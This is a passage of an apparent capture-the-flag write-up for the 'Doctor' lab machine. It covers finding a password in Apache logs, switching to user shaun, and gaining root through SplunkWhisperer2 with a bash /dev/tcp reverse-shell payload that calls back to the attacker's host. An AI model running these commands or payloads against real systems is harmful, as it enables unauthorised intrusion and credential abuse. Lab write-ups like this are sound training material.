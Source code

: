 `user.txt` is located inside shaun's home directory and is only readable by shaun.

Next we find, Web user is a member of `adm` group which allows us to read log files in `/var/log/` directory:

```shell
web@doctor:~$ id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
```

Going through the apache2 log files, we will grep for password where we discover a password `Guitar123`:

```shell
web@doctor:/var/log/apache2$ grep -r password
grep -r password
backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
```

### Su - shaun

Turns out `Guitar123` is shaun's password:

```shell
web@doctor:/home/shaun$ su shaun
Password: Guitar123
shaun@doctor:~$
```

Grabbing `user.txt`:

```shell
shaun@doctor:~$ cat user.txt
8bb491643e3fe3******************
```

## Elevating Priv: shaun -> root

Initial enumeration did reveal a splunkd service hosted on Port 8089 running version 8.0.5

On searching for Splunk Privilege escalation exploit we stumble upon [**SplunkWhisperer2**](https://github.com/cnotin/SplunkWhisperer2) using which we can achieve privilege escalation or remote code execution

### Root shell

We'll clone the repo on our machine and run the Python script along with shaun's creds:

```shell
cfx:  ~/Documents/htb/doctor/SplunkWhisperer2/PySplunkWhisperer2  |master ✓|
→ python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.27 --username shaun --password Guitar123 --payload "bash -c 'bash -i >& /dev/tcp/10.10.14.27/4444 0>&1'"
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpq0qs909h.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.27:8181/
10.10.10.209 - - [14/Nov/2020 21:48:42] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup

[.] Removing app...
[+] App removed
[+] Stopped HTTP server
Bye!
```
